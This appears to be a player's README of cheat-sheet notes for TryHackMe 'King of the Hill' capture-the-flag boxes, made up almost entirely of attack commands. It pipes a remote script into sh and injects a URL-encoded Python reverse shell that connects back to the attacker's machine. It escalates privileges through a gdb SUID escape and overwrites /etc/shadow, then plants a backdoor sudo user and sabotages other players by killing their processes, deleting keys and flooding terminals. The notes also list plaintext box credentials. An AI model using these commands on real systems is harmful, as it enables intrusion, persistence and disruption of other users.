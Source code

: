 start up the in-browser machine  

# useful commands
find all admin commands:
`find / -perm -u=s -type f 2>/dev/null`
run linPEAS.sh(tool that finds potential privilege escalation points)
`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  

# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  


# food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
`sudo chmod -xs vim.basic`  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


# shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
```
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```  
be root  
copypaste these in place of shrek's account in /etc/shadow  
`shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::`  
you now have shrek:onionshavelayers  
make shrek a sudoer  
```
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *
```  
grab the flag if someone else hasn't already  
```
sudo systemctl stop httpd  
sudo systemctl stop tomcat
```  
afterwards stuff        




# space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"
```  
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon
```  
change password  
`killall node`(make sure to ssh first)  
`chmod /bin/cp 000`      

???  
profit      




# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &  
use social engineering wall  







